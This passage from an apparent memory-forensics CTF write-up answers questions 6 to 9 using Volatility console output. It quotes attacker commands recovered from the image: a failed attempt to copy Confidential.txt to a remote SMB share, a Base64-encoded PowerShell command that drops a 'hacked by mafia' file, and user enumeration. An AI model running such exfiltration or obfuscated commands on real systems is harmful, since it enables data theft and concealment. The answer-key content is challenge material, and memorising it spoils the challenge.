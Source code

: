 Q6: Following the above command, now tell us if the file was exfiltrated successfully?

`volatility --profile=Win7SP1x64 consoles -f recollection.bin`

```
PS C:\Users\user> type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt                                                                
The network path was not found.                                                 
At line:1 char:47                                                               
+ type C:\Users\Public\Secret\Confidential.txt > <<<<  \\192.168.0.171\pulice\p 
ass.txt                                                                         
    + CategoryInfo          : OpenError: (:) [], IOException                    
    + FullyQualifiedErrorId : FileOpenFailure                                   
```

The full command line attempted by the attacker to exfiltrate the file is `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`. However, this attempt was unsuccessful as indicated by the error message "The network path was not found". This failure shows that the attacker did not manage to exfiltrate the intended file, possibly due to network configuration or the unavailability of the specified path.

---

### Question 7
Q7: The attacker tried to create a readme file. What was the full path of the file?

`volatility --profile=Win7SP1x64 consoles -f recollection.bin`
```
PS C:\Users\user> powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
```
`ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi`

```
ccrollin@thinkpad-p43s:~/.../recollection$ base64 -d readme.txt 
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
```
`C:\Users\Public\Office\readme.txt`


The attacker used a Base64-encoded PowerShell command to create a readme file with the content "hacked by mafia". The full path of this file is `C:\Users\Public\Office\readme.txt`. Decoding the Base64 string reveals the command, showing the attacker's method of concealing their actions through encoding.

---

### Question 8 & 9
Q8: What was the Host Name of the machine?

Q9: How many user accounts were in the machine?

`volatility --profile=Win7SP1x64 consoles -f recollection.bin`
```
PS C:\Users\user> net users                                                                                             
                                                                                                                        
User accounts for \\USER-PC                                                                                                       
--------------------------------------------------------------                                        
Administrator            Guest                    user                                                                  
The command completed successfully.                                                                                     
```
